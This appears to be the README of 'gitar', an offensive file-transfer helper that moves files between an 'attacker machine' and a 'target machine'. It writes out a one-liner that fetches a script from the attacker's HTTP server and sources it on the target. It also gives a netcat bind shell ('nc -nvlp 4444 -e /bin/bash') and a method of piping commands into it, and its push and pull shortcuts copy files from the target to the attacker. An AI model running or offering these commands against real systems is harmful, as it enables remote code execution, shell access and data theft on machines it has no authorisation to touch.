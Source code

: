 <h1 align=center> 🎸  gitar ⇆</h1>

<div align="center">
<code>
<b>~></b> Have the  <b><i>simplest possible shortcuts </i></b> to upload/download file to/from the <q>target machine</q>

<b>~></b><b><i> No installation needed</i></b> on <q>target machine</q>
</code>
</div>



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** to my attacker machine: `pull [file]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a di1rectory** to my attacker machine: `pushr [file]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up

### Pre-requisite

* Network connectivy trough http between attacker & target machine
*[target machine] <--http--> [Attacker machine]*

* On target machine: `nc`,`cat`, `curl` 
	* and `tar` for upload directory 

### Steps

 1. <sup>(Attacker machine)</sup> Launch the "server" : `./gitar -e [server_reachable_ip] -p [server_port]`
 2. <sup>(Target machine)</sup> get shortcuts from `/alias` endpoint and source them. The one-liner corresponding would be provided in 1. step: `curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias`

**And that's all, you can now `push`or `pull` file [🎶](#tldr---and-listen-music)**

### Steps with a `nc` reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*
1. <sup>(Target machine)</sup> Launch your classic listener: `nc -nvlp 4444 -e /bin/bash`
2. <sup>(Attacker machine)</sup> Launch the "server" : `./gitar -e [server_reachable_ip] -p [server_port]`
3.  <sup>(Attacker machine)</sup> Connect to the reverse shell + load shortcut within: `export CMD=[get & source shortcuts one-liner] && (echo $CMD && cat) | nc [VICTIM_IP] 4444`

**And enjoy you revshell [🎶](#tldr---and-listen-music)**

## Enhancement 🛣️

**~>** *All improvements must keep `gitar` simple and don't add unlikely pre-requisites (especially for the target machine)*

**Useful cause we will expose our http server and thus we become the prey**
- HTTPS, basic authent (for the file server part)
- Command line to run server on a docker (or harden `gitar` with seccomp + apparmor + drop capabilities) 

**Improve UX**
- Copy to clipboard "setup shortcut command" when launching gitar
- Soft to workaround limit due to `cat` use for reverse shell connection => autocompletion in reverse shell will not work as we have a pipe not a terminal. (To solve the pb we must have a prgm that creates a pseudoterminal, spawns a program connected to this pseudoterminal [see](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive) )
- Handle case when curl isn't on target machine (wget version?)
- Download directory support 
- Completion on target shell to help `pull` (path completion)
- An option to directly launch the reverse shell session with shortcut from `gitar`

